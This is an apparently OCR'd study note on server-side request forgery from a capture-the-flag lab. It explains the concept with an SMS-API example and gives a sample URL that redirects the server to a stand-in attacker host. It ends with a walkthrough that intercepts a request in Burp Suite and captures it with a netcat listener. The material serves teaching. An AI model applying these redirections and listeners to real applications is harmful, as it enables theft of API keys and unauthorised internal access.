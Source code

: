 # Server-Side Request Forgery 

## Introduction 
Server-Side Request Forgery (SSRF) is a security vulnerability where attackers manipulate a web application into sending requests to different destinations using the application's own capabilities. 

## Key Points 
• SSRF vulnerabilities often emerge when web applications interact with third-party services. 

• For example, a web application might send SMS notifications using an external API, requiring an API key for authentication. 

• The vulnerability arises if the application allows users to manipulate the server parameter directing requests to the SMS provider. 

• An attacker could change the server value to point to their own machine, prompting the application to send requests to the attacker instead of the intended provider, allowing the attacker to control message sending at the expense of the original user. 

• The attacker could execute a simple request, like: 
`https://www. mysite.com/sms? server=attacker. thm&amp;msg=ABC` 

• This would redirect the web application to send a request to: 
`https://attacker. thm/api/send? msg=ABC` 

• Using tools like Netcat, the attacker can capture the contents of the request. 

• SSRF can allow attackers to do more than just send requests, including: 

• Enumerating internal networks and identifying IP addresses and ports. 

• Exploiting trust relationships between servers for restricted access. 

• Interacting with non-HTTP services, potentially leading to remote code execution (RCE). 

## Conclusion 
To better understand and exploit SSRF vulnerabilities, visit http://MACHINE_IP:8087/ and locate the admin area as a targeted objective. Follow the specific instructions provided to access restricted areas of the website.

# Try Hack me Challenge

So this challenge is fun. You have to use burp suite to do SSRF. We stop the request while downloading the cv. This way we can change the server to our machine ip.
In a terminal we use: nc -lvp 8030, and in burpsuite we change the server address to: MACHINE_IP:8030 and forward the request. This way we can get the flag. 